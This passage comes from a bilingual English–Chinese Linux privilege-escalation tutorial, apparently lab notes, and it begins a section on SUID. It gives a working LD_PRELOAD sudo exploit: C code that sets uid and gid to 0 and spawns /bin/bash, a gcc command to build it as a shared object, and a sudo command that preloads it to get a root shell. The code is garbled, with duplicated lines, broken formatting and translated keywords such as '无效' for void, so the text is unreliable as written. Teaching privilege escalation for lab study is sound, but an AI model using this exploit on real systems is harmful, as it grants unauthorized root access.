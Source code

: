 1. Check for LD_PRELOAD (with the env_keep option)  
    检查LD_PRELOAD（使用env_keep选项）
2. Write a simple C code compiled as a share object (.so extension) file  
    编写编译为共享对象（.so 扩展名）文件的简单 C 代码
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file  
    使用 sudo 权限和指向我们的 .so 文件的 LD_PRELOAD 选项运行程序

The C code will simply spawn a root shell and can be written as follows;  
C 代码将简单地生成一个根 shell，可以写成如下;
```c
#include <stdio.h> #include < stdio.h>  
#include <sys/types.h> #include < sys/types.h>  
#include <stdlib.h> #include < stdlib.h>  
```
void _init() { 无效 _init（） {  
unsetenv("LD_PRELOAD"); unsetenv（“LD_PRELOAD”）;  
setgid(0); setgid（0）;  
setuid(0); setuid（0）;  
system("/bin/bash"); 系统（“/bin/bash”）;  
}  

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;  
我们可以将此代码保存为 shell.c，并使用以下参数使用 gcc 将其编译为共享对象文件;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png)  

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.  
现在，我们可以在启动用户可以使用 sudo 运行的任何程序时使用此共享对象文件。在我们的例子中，可以使用 Apache2、find 或几乎任何我们可以用 sudo 运行的程序。

We need to run the program by specifying the LD_PRELOAD option, as follows;  
我们需要通过指定 LD_PRELOAD 选项来运行程序，如下所示;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.  
这将导致具有 root 权限的 shell 生成。

![](https://i.imgur.com/1YwARyZ.png)
# Privilege Escalation: SUID
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
许多 Linux 权限控制都依赖于控制用户和文件的交互。这是通过权限完成的。到目前为止，您已经知道文件可以具有读取、写入和执行权限。这些权限授予用户在其权限级别内。这随着 SUID（设置用户标识）和 SGID（设置组标识）而改变。它们允许分别以文件所有者或组所有者的权限级别执行文件。  
  
You will notice these files have an “s” bit set showing their special permission level.  
您会注意到这些文件设置了一个“s”位，显示其特殊权限级别。  
  